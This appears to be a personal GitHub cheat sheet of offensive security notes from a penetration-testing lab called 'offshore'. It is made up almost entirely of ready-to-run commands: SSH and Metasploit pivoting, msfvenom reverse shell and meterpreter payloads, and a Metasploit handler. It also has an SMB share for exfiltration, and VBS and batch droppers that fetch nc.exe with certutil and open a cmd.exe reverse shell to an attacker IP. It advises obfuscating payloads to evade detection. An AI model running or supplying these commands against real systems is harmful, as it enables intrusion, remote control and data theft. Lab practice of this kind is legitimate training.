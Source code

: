 # These are just tricks I picked up in offshore, will get exploded into different dirs at some point.

#### Pivoting

### method 1:

Add to proxychains.conf:
`socks4 127.0.0.1 1080`  
`ssh -D 1080 -i 10.10.110.123/root_ssh root@NIX01`  
`proxychains nmap -sV 172.16.1.0-254`  

### Method 2:
*if I could nmap through this tunnel it would be the preffered method  

`sshuttle -vr root@NIX01 172.16.1.1/24 --ssh-cmd "ssh -i 10.10.110.123/root_ssh"`  

### Method 3:  
msf > use auxiliary/scanner/ssh/ssh_login_pubkey  
msf auxiliary(ssh_login_pubkey) > set RHOSTS 10.10.110.123    
msf auxiliary(ssh_login_pubkey) > set USERNAME root  
msf auxiliary(ssh_login_pubkey) > set KEY_PATH 10.10.110.123/root_ssh  
msf auxiliary(ssh_login_pubkey) > run  
ctrl+z
sessions -u 2
background
use auxiliary/server/socks_proxy
run


meterpreter > run post/multi/manage/autoroute  
CTRL+Z  
use auxiliary/scanner/portscan/tcp   
set RHOSTS 172.16.1.0/24  

### Method 4:  

`ssh -D 1080 -i 10.10.110.123/root_ssh root@NIX01` *1080 is redsocks proxy default*  
`echo 1 > /proc/sys/net/ipv4/ip_forward`  
`iptables -t nat -A OUTPUT -p tcp -d 172.16.1.0/24 -j REDIRECT --to-ports 12345`  
`iptables -t nat -A PREROUTING -p tcp -d 172.16.1.0/24 -j REDIRECT --to-ports 12345`  
`/usr/sbin/redsocks -c /etc/redsocks.conf `

# Get a proper shell from a half/broken shell
`msfvenom -p cmd/unix/reverse_python lhost=69.201.13.55 lport=3344 R`
paste in your shell, profit
`python -c 'import pty; pty.spawn("/bin/sh")'`

## Start mult/handler:
`sudo msfconsole -x "use exploits/multi/handler; set lhost 10.10.14.14; set lport 443; set payload windows/meterpreter/reverse_tcp; exploit"`
`msfvenom -p windows/x64/meterpreter_reverse_http -f psh LHOST=10.10.14.14 LPORT=443 -o l.ps1`

## Start SMB for infil/exfil:  
`$ sudo impacket-smbserver -smb2support GUEST /home/kymb0/Desktop/backup/offshore/toolz`

## Reverse shell vbs (remember to run PS shellcode through https://github.com/danielbohannon/Invoke-obfuscation)
`Set objShell = CreateObject("Wscript.Shell")
objShell.Run("powershell.exe -noexit \\10.10.14.14\GUEST\l.ps1")`

## Reverse shell bat (remember to run through https://github.com/danielbohannon/Invoke-DOSfuscation)
cmd.exe /c
certutil.exe -urlcache -split -f http://10.10.14.14/nc.exe 
C:\ManageEngine_new\OpManager\logs\nc.exe
C:\ManageEngine_new\OpManager\logs\nc.exe -nv 10.10.14.14 443 -e cmd.exe
